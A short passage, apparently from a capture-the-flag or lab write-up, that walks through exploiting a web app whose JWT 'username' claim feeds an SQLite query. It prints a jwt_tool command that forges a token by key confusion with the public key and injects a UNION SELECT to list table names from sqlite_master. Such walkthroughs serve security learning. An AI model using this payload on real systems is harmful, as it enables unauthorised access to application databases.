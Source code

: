 <figure><img src="../.gitbook/assets/Untitled 16.png" alt=""><figcaption></figcaption></figure>

The request is valid and we got a response back. From this we can devise that the database is containing three columns.

Now we can get the table using the following command:

{% code overflow="wrap" %}
```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(tbl_name),1 from sqlite_master--" -X k -pk ./public.key
```
{% endcode %}
